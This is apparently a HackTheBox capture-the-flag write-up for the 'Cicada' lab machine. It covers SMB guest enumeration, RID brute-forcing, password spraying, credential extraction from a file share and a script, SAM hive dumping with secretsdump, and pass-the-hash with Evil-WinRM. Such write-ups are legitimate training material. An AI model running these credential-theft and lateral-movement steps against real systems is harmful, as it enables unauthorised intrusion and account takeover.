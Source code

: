 ```yaml
---
layout: post
title: Test-post
date: 2025-02-9 13:34 +0100
description:
image:
author: lone
category: HackTheBox
tags: htb box
published: true
sitemap: false
---
```


## Inital access

From the nmap scan we can see that there are mutliples ports open.
In this case we will focus on the port 445 (smb):

`![nmap_scan](assets/nmap_scan.png)`

Using `smbclient` we can list the shares available:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares 
```

`![shares](assets/shares.png)`

Using the following command, the list of the readable shares is returned:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares --filter-shares READ WRITE
```

`![shares_filter](assets/shares_filter.png)`

Using smbclient we can access the share `HR`:

```bash
smbclient -no-pass guest@10.10.11.35
use HR
```

`![HR_share](assets/HR_share.png)`

The file `Notice from HR.txt` can be retrieved and contains the following information:

> Dear new hire!
>
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.
>
>Your default password is: "PASSWORD"
>
>To change your password:
>
>1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
>2. Once logged in, navigate to your account settings or profile settings section.
>3. Look for the option to change your password. This will be labeled as "Change Password".
>4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
>5. After changing your password, make sure to save your changes.
>
>Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.
>
>If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at <support@cicada.htb>.
>
>Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
>
>Best regards,
>Cicada Corp

A password is indicated but no username is provided.
The following command can be used to list all available users:

```bash
netexec smb 10.10.11.35 -u guest -p "" --rid-brute | grep "idTypeUser"
```

`![users](assets/users.png)`

The output of the command is saved to a file and the following command is used to extract the usernames:

```bash
sed -E 's/.*CICADA\\([^ ]+) .*/\1/' users.txt > usernames.txt
```

The following command is used to test the password with the found usernames:

```bash
netexec smb 10.10.11.35 -u usernames.txt  -p pass.txt
```

`![michael](assets/michael.png)`

The account of `michael.wrightson` is found to be valid.
Listing all the users with the found account, information about the user `david.orelious` is found:

```bash
netexec smb "10.10.11.35" -u 'michael.wrightson' -p pass.txt --rid-brute --users
```

`![david_password](assets/david_password.png)`

Using the same command as before, it is possible to see that david has access to the share `DEV`:

```bash
netexec smb "10.10.11.35" -u david.orelious -p david_pass.txt --shares --filter-shares READ WRITE
```

`![DEV](assets/DEV.png)`

Using smbclient, the share `DEV` can be accessed:

`![backup_script](assets/backup_script.png)`

The content of the retrieved file `backup_script.ps1` is the following:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The credentials of `emily.oscars` are found in the script. The credentials are those of a local user. It is possible to access emily's account using `Evil-WinRM`.
The first flag is found in the Desktop of emily's account:

`![user_flag](assets/user_flag.png)`

## Privilege escalation

Using `whoami /priv` the following information is found:

`![priv](assets/priv.png)`

This privilege allows the user to retrieves the system hives. The following command is used to retrieve the hives:

```powershell
reg save hklm\sam sam.hive
reg save hklm\sam sam.hive
```

`![hives](assets/hives.png)`

After the hives are retrieved, `secretsdump` is used to extract the hashes:

```bash
secretsdump -outputfile dump.txt -sam SAM -system SYSTEM LOCAL
```

`![hashes](assets/hashes.png)`

With the hash of the user `Administrator`, it is possible to use `Evil-WinRM` to access the account:

```bash
evil-winrm -u administrator -H 2b87e7c93XXXX -i 10.10.11.35
```

The root flag is found in the Desktop of the Administrator account:

`![root](assets/root.png)`
